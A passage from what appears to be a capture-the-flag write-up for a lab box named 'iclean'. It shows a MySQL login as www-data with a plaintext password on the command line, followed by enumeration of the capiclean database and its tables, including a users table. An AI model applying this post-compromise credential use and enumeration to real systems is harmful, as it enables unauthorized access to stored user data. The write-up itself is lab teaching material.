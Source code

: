 ## Database Enumeration

We logged in and started enumerating the available `databases` and `tables`. Since we already knew the name of the `database`, this was pretty straight forward.

```c
www-data@iclean:/opt/app$ mysql -u iclean -ppxCsmnGLckUb
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4951
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

```c
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| capiclean          |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)
```

```c
mysql> use capiclean;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

```c
mysql> show tables;
+---------------------+
| Tables_in_capiclean |
+---------------------+
| quote_requests      |
| services            |
| users               |
+---------------------+
3 rows in set (0.00 sec)
```
